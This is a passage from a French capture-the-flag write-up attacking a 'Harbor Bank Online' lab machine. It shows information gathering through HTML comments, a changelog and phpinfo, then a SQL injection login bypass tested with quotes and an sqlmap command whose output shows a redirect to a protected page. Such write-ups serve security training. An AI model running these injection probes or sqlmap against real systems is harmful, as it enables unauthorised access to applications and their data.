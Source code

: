 ```plain
```

Regarder le code HTML de la page d'accueil est aussi une habitude que l'on prend vite sur les CTFs. Ici ça semble intéressant :  

```html
<html lang="en">
<!-- Harbor Bank Online v2 - See changelog.txt for version details.-->
<head>
```

Le changelog en question mentionne (sans les détails) une vulnérabilité qui a été corrigée mais n'est pas poussée en prod. Ils indiquent aussi que cela allait être fait *"doucement"* (?).  

Le *phpinfo* est comme d'habitude une mire d'or en tant que prise d'informations. Ainsi on devine rapidement au nom d'hôte que le serveur tourne dans un Docker et on découvre que l'utilisateur courant qui est *www-data* dispose d'un dossier personnel dans */home* ce qui est pour le coup moins courant.  

Si jamais un serveur SSH est accessible on pourra certainement jouer avec les clés SSH ce qui n'est habituellement pas possible car le home correspond souvent à la racine web dont *root* est le propriétaire.  

Pour le reste le site est justement servi par */var/www/html* ce qui est standard.  

Login bypass
------------

En testant la page de login pour une faille SQL (on peut juste placer des guillemets et apostrophes dans les champs) j'obtiens une erreur évocatrice :  

```plain

Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/login.php on line 16
```

Bizarrement la vulnérabilité ne semble pas toujours présente, d'ailleurs SQLmap ne parvient pas à dumper quoi que ce soit mais valide tout de même ce cas de bypass malgré lui puisqu'il accède à la page normalement protégée :  

```plain
$ python sqlmap.py -u http://192.168.56.11/ --data "user=admin&password=admin&s=Login" --risk 3 --level 5 --dbms mysql

--- snip ---
[10:24:53] [INFO] testing if POST parameter 'user' is dynamic
[10:24:53] [WARNING] POST parameter 'user' does not appear to be dynamic
[10:24:53] [INFO] heuristic (basic) test shows that POST parameter 'user' might be injectable (possible DBMS: 'MySQL')
[10:24:53] [INFO] testing for SQL injection on POST parameter 'user'
[10:24:53] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
got a 302 redirect to 'http://192.168.56.11:80/OnlineBanking/index.php?p=welcome'. Do you want to follow? [Y/n]
--- snip ---
```

